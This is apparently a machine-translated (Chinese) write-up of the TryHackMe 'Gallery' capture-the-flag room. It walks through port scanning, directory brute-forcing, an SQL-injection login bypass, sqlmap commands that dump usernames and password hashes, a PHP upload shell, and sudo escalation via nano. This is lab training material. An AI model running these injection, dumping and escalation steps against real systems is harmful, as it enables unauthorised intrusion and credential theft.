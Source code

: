 # TryHackMe:画廊

> 原文：<https://infosecwriteups.com/thmgallery-25845096170d?source=collection_archive---------1----------------------->

游戏攻略

大家好。！不浪费时间，让我们利用画廊->

![](img/21591ae51157016552d989b8a2788c7b.png)

让我们从我的首字母开始

```
export IP=10.10.195.122
```

# 侦察

## nmap

```
nmap -sC -sV -Pn -oN nmap $IP
```

![](img/d4e9a865be4a47aa4d3b585119e81e52.png)

nmap _ 结果. txt

我们有两个开放的端口:`80 & 8080`

端口 80 有默认的 Apache 服务器网页。

## 目录暴力破解

让我们一起去玩“捉鬼敢死队”:

```
gobuster dir -u $IP -w /opt/medium.txt
```

![](img/c140a20f0240d5c91042df4bc32cadc4.png)

gobuster_result.png

# 剥削

## SQLi

访问 http://$IP/gallery，我们有登录页面

![](img/c190f55c1ae9bea5519cca312b1e603f.png)

login_page.png

*   尝试了一些默认密码→没有成功。
*   尝试基本 sqli 语法→成功

在用户名字段中

```
'or 1=1 -- -
```

将密码留空，我们就可以登录了:)

![](img/485db2e711dfa2e7f057a738b95a0de7.png)

Post_login.png

因此，有一个简单的图像画廊系统，即 sqli(参考下文)的利用

![](img/8d16a4deac9417d2dffae29213653447.png)

brup.png

让我们保存这个`right_click>save>test.req` &把它放入 **sqlmap**

```
sudo sqlmap -r test.req --dbs
```

![](img/22a216ee12bd28e2ce307f57ca5d78d0.png)

sqlmap.png

我们发现了两个数据库:

![](img/2cf5e176ae264decedcf75bdf8ba6ed7.png)

database.png

现在去拿桌子:

```
sudo sqlmap -r test.req --current-db gallery_db --tables
```

![](img/86b6de263abef4db546c30ff44709a81.png)

tables.png

现在获取列:

```
sudo sqlmap -r test.req --current-db gallery_db -T users --columns
```

![](img/d48d954d0d9ed311b00325df4cc74e69.png)

列

让我们转储一些数据

```
sudo sqlmap -r test.req --current-db gallery_db -T users -C username,password --dump
```

![](img/7432c18a12496d8248b4c15775e48cf3.png)

我们发现了管理哈希(我们可以破解，但这是一个兔子洞)

## 壳

经过一番冲浪，发现可以上传图片(/任意文件)。我启动了我的监听器并上传了 php 文件，我们得到了**外壳**

![](img/2a0aaba43f96239e931bf6287b1c45aa.png)

Shell.png

## user.txt

我花了大约 4 个多小时来寻找各种特权提升技术，但是什么也没找到。

后来我的朋友给了我一些提示，然后我在备份文件夹里发现了一些有趣的凭据:

![](img/720a2c3d0edcce6318745bedb35b3572.png)

兔子洞. png

再说一次，这些只是兔子洞，没关系。

我们继续，后来我发现了。bash _ 历史

![](img/345ffca0cc51533de66d562515144613.png)

。bash_history.png

这里您可以看到用户 mike 的密码。

```
su mike
```

输入密码，我们是迈克·:D

![](img/cf7a2878784d32e97ef7be2f1392f929.png)

user.txt.png

# 根

## root.txt

跑着`sudo -l`，我们发现

![](img/f7e33eb9631ad3c183df64e91ae37abc.png)

须岛县

用户 mike 可以 sudo 身份运行/opt/rookit.sh 文件

让我们检查一下这个文件:

![](img/819740fa661b6daed498a591cf7afdbe.png)

嗯，我们可以通过 nano 访问 esc，查看 GTFObins

```
sudo /bin/bash /opt/rootkit.sh
```

![](img/c08554a0d977bb9273e573b2a78630f2.png)

纳米私人 ECS technique.png

之后都是 urs:)

![](img/56de5c7d5a16d399bad55d7177ea297b.png)

root.txt

感谢您阅读本文。希望你喜欢。

# 参考资料:

|| [网站](https://namx05.github.io/)|[Twitter](https://twitter.com/namx05)|[GTFObins](https://gtfobins.github.io/)|[THM Room](https://tryhackme.com/room/gallery666)|[SQLi exploit](https://www.exploit-db.com/exploits/50198)| |

# 🔈 🔈Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。[查看更多详情并在此注册。](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)